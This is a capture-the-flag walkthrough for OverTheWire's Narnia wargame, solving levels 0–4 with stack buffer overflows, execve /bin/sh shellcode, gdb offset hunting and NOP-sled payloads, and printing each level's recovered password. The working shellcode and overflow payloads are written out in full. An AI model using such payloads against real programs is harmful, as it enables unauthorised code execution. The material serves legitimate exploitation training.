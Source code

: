 # [The Narnia wargame](https://overthewire.org/wargames/narnia/)
host: [narnia.labs.overthewire.org](narnia.labs.overthewire.org)  
port: 2226  
username: narnia<level>  
start password: narnia0  
### login via ssh
```
ssh narnia<level>@narnia.labs.overthewire.org -p 2226
```

### level 0 -> 1
Simple buffer overflow
```shell
narnia0@narnia:/narnia$ (printf 'aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde';cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```
**password:**  
efeidiedae

### level 1 -> 2
We need to set environment variable named "EGG" to shellcode the program will run  
I use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode to open shell as narnaia1
```shell
narnia1@narnia:/narnia$ export EGG=$(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
**password:**  
nairiepecu
  
### level 2 -> 3
There is unsafe copy to buffer, we can use this to set return address to run our shellcode.
First of all we need to find what offset the return address, we will use gdb with breakpoint before the ret command.
```shell
narnia2@narnia:/narnia$ gdb -q ./narnia2
Reading symbols from ./narnia2...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804844b <+0>:     push   %ebp
   0x0804844c <+1>:     mov    %esp,%ebp
      ...
   0x08048497 <+76>:    mov    $0x0,%eax
   0x0804849c <+81>:    leave                 <- we will put breakpoint her
   0x0804849d <+82>:    ret
End of assembler dump.
(gdb) b *0x0804849c
Breakpoint 1 at 0x804849c
(gdb) r $(python -c "print('A'*132+'B'*4)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c "print('A'*132+'B'*4)")

Breakpoint 1, 0x0804849c in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()                         <- the four 'B' override the return address
```
Now lets create the payload, it will be in this format:  
(A series of NOP instructions(0x90)) (Shellcode) (Overridden return address)  
the return address will jump to address just before the shellcode.  
I use the [same](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode(25 bytes) as in the previous level.  
We just need to know the address before the shellcode:  
```shell
(gdb) r $(python -c "print('A'*(132-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + 'B'*4)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c "print('A'*(132-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + 'B'*4)")

Breakpoint 1, 0x0804849c in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/150wx $esp
0xffffd640:     0x00000000      0xffffd6d4      0xffffd6e0      0x00000000
0xffffd650:     0x00000000      0x00000000      0xf7fc5000      0xf7ffdc0c
...
0xffffd7f0:     0x9e797a0d      0x9908446a      0x695d19dc      0x00363836
0xffffd800:     0x6e2f0000      0x696e7261      0x616e2f61      0x61696e72
0xffffd810:     0x41410032      0x41414141      0x41414141      0x41414141          <- the 'A's start somewhere here
0xffffd820:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd830:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd840:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd850:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd860:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd870:     0x41414141      0x41414141      0x41414141      0x50c03141          <- here the shellcode start
0xffffd880:     0x732f2f68      0x622f6868      0xe3896e69      0xe1895350
0xffffd890:     0x0bb0c289      0x424280cd
```
So, let choose 0xffffd870, now use the payload!
```shell
narnia2@narnia:/narnia$ ./narnia2 $(python -c "print('\x90'*107 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x70\xd8\xff\xff')")
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
  
**password:**  
vaequeezee
                                                                                       
### level 3 -> 4
Their is unsafe copy from argv[1] to ifile, so we can overflow and get into ofile  
We need to give the program path that serve as somthing we want to read and also serve as payload that pushed to 'ofile' and serve as output file we can read. The path will be in this format:  
'/tmp/(some padding)/tmp/result'  
'/tmp/result' will serve as output file and '/tmp/(padding)/tmp/result' as link to password (/etc/narnia_pass/narnia4)  
Therefore the program will read all data from '/tmp/<padding>/tmp/result and insead of write it to /dev/null he will write it to '/tmp/result' and we can read it.  
I create [this](https://gist.github.com/bom2013/919a78a2dcb44689d37587bedb43be49) script in some folder inside /tmp/ and run it
```shell
narnia3@narnia:/tmp/qwert$ ./solve.sh
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/result to a safer place... (/tmp/result)
thaenohtai
(.PT narnia3@narnia:/tmp/qwert$
```
**password:**  
thaenohtai
  
### level 4 -> 5
This is actually same as level 2, all the things in the middle of the program isn't importent, what important is the unsafe copy from argv[1] to the buffer.  
We will create same payload(NOPs + shellcode + return address that jump to the middle of the NOPs)  
The steps of preparing the payload using gdb:   
1. Find offset to override the return address - 264 bytes  
2. Find some address in the middle of the NOPs - 0xffffd880
3. Get shellcode - [same](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode
4. Create the full payload - ```'\x90'*239 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x80\xd8\xff\xff'```
```shell
narnia4@narnia:/narnia$ ./narnia4 $(python -c "print('\x90'*239 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x80\xd8\xff\xff')")
$ cat /etc/narnia_pass/narnia5
faimahchiy
```
**password:**  
faimahchiy

### level 5 -> 6

**password:**


### level 6 -> 7

**password:**


### level 7 -> 8

**password:**


### level 8 -> 9

**password:**

